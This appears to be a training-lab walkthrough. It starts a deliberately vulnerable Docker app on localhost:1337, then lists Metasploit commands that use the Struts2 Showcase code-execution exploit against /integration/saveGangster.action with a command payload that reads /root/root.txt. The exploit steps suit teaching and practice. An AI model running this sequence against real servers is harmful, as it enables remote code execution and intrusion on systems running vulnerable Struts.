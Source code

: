 
Unpack this archive and go to the service-exploit-prod directory that appears in the terminal shell of your OS. Run command:
```bash
docker-compose up -d
```
The lab application will appear at http://localhost:1337.
 

#### Possible problems:

If you have not disabled past lab benches, you may receive an error:

Bind for 0.0.0.0:1337 failed: port is already allocated

In this case, run the docker ps command, find a running container that uses the previously occupied port, and stop it with the command:
```bash
docker stop [container name or id]
```
### Now, We`re Ready To Go!
```bash
msfconsole <- Launch framework
```
```bash
search struts showcase <- Search for all possible exploits containing the string “struts showcase”
```
```bash
use exploit/multi/http/struts2_code_exec_showcase <- Select an exploit to work with later setup
```
```bash
info <- Examining information about the exploit
```
```bash
options <- Demonstration of options for configuring the exploit
```
```bash
set RHOSTS localhost <- Set up the host to use the exploit
```
```bash
set RPORT 1337 <- Set the port to apply the exploit to
```
```bash
set TARGETURI /integration/saveGangster.action <- Setting the location of the vulnerable plugin on the site
```
```bash
set PAYLOAD cmd/unix/generic <- Setting the “load” executable after the exploit is applied
```
```bash
set CMD 'cat /root/root.txt' <- Set load options (Indicate the command to be executed)
```
```bash
check <- Using a “checker” to check the correctness of the configured exploit
```
```bash
exploit <- Exploitation of a vulnerability
```
